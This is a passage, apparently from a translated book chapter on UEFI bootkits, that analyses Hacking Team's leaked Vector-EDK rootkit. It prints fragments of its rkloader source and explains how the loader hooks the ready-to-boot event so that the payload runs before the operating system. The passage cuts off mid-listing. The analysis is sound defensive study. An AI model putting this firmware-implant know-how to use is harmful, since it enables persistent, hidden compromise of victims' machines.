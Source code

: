 **Bootkit (*fsbg.efi*)** 一款 UEFI 应用程序，在 BIOS 将控制权传递给操作系统引导程序之前运行。它包含了主要的 bootkit 功能，解析 NTFS 文件系统并使用 *Ntfs.efi* 将恶意软件注入文件系统。

我们分析了泄露的 Vector-EDK 源代码，并发现组件 *rkloader.efi* 和 *fsbg.efi* 实现了 rootkit 的核心功能。

首先，让我们来看一下 *rkloader.efi*，它会运行 *fsbg.efi*。列表 15-4 显示了 UEFI DXE 驱动 *rkloader* 的主要例程 `_ModuleEntryPoint()`。

```
EFI_STATUS

EFIAPI

_ModuleEntryPoint (EFI_HANDLE ImageHandle, EFI_SYSTEM_TABLE *SystemTable)

{

    EFI_EVENT Event;

    DEBUG((EFI_D_INFO, "Running RK loader.\n"));

    InitializeLib(ImageHandle, SystemTable);

    gReceived = FALSE;    // reset event!

    //CpuBreakpoint();

    // wait for EFI EVENT GROUP READY TO BOOT

 ➊ gBootServices->CreateEventEx( 0x200, 0x10,

                     ➋ &CallbackSMI, NULL, &SMBIOS_TABLE_GUID, &Event );

    return EFI_SUCCESS;

}
```

*列表 15-4：* rkloader *组件中的 `_ModuleEntryPoint()` 例程*

我们发现例程 `_ModuleEntryPoint()` 只做了两件事，其中第一件是为事件组 `EFI_EVENT_GROUP_READY_TO_BOOT` 创建触发器 ➊。第二件事是在事件到达时，通过 `CallbackSMI()` 执行 SMI 处理程序 ➋。`CreateEventEx()` 例程的第一个参数表明 `EFI_EVENT_GROUP_READY_TO_BOOT` 的即时值是 0x200\。这个事件发生在操作系统引导程序接管控制之前，位于 BIOS DXE 阶段的末尾，允许恶意负载 *fsbg.efi* 在操作系统之前接管执行。

大部分有趣的逻辑都包含在 列表 15-5 中的 `CallbackSMI()` 例程内。这个例程的代码相当长，因此我们这里只展示了其流程中最重要的部分。

```
VOID

EFIAPI

CallbackSMI (EFI_EVENT Event, VOID *Context)

{

   --snip--

➊ EFI_LOADED_IMAGE_PROTOCOL       *LoadedImage;

   EFI_FIRMWARE_VOLUME_PROTOCOL    *FirmwareProtocol;

   EFI_DEVICE_PATH_PROTOCOL        *DevicePathProtocol,

                                   *NewDevicePathProtocol,

                                   *NewFilePathProtocol,

```
